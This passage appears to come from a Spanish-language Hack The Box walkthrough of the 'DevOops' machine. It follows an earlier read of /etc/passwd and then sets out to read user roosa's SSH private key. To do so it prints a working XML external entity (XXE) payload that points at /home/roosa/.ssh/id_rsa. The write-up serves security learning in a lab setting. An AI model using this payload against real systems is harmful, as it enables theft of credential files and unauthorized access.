 ![](/assets/images/htb-devoops/devoops-etc.png)

Podemos visualizar archivos de sistema, para este caso el archivo `/etc/passwd`. Recordando que tenemos el puerto 22 abierto, podríamos tratar de visualizar el archivo `id_rsa` del usuario **roosa**.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///home/roosa/.ssh/id_rsa" >]>
<elements>
        <Author>&xxe;</Author>
        <Subject>Test</Subject>
        <Content>Esto es un test</Content>
</elements>
```
